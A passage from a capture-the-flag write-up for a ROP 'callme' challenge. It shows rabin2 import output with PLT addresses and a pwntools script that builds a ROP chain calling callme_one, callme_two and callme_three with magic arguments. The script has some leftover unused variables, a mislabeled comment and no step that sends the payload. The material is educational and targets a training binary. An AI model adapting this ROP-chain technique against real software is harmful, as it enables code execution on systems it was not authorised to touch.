There's just one last thing that we don't know, what values to place into the stack for the callme functions. To do this, we can use the rabin2 tool from before:
```
rabin2 -i callme
[Imports]
nth vaddr      bind   type   lib name
―――――――――――――――――――――――――――――――――――――
1   0x004006d0 GLOBAL FUNC       puts
2   0x004006e0 GLOBAL FUNC       printf
3   0x004006f0 GLOBAL FUNC       callme_three
4   0x00400700 GLOBAL FUNC       memset
5   0x00400710 GLOBAL FUNC       read
6   0x00000000 GLOBAL FUNC       __libc_start_main
7   0x00400720 GLOBAL FUNC       callme_one
8   0x00000000 WEAK   NOTYPE     __gmon_start__
9   0x00400730 GLOBAL FUNC       setvbuf
10  0x00400740 GLOBAL FUNC       callme_two
11  0x00400750 GLOBAL FUNC       exit
```

And we are able to get the locations of the callme functions. An important note is that these are in the plt (Procedure Linkage Table), not actually the callme binary. That won't matter for this challenge, but we will have to deal with the plt and how linked binaries work later on.

At this point we have all of the values that we want to put on the stack, so it's just a question of coding up an exploit in python with our trusty pwntools.

```python
#!/usr/bin/python3

from pwn import *
io = process('./callme')

# The amount to fill the buffer
junk = b'A' * 0x20

# The 8 bytes to fill the new base pointer from the leave
new_bp = p32(0xcafebabe)*2

# This is the vaddr of system
# First return to the location of the pop rdi
popper = p64(0x0040093c)
call1 = p64(0x00400720)
call2 = p64(0x00400740)
call3 = p64(0x004006f0)

back_junk = b"B" * 20

newbp    = p32(0xba5effff) * 2

d00df00d = p32(0xd00df00d) * 2
deadbeef = p32(0xdeadbeef) * 2
cafebabe = p32(0xcafebabe) * 2

args = deadbeef + cafebabe + d00df00d 

payload = junk + newbp + popper + args +call1 + popper + args + call2 + popper + args + call3

print("The payload is:")
print(payload)

input("Hit enter to apptempt exploit")

print(io.clean(0.5).decode("utf-8"))

```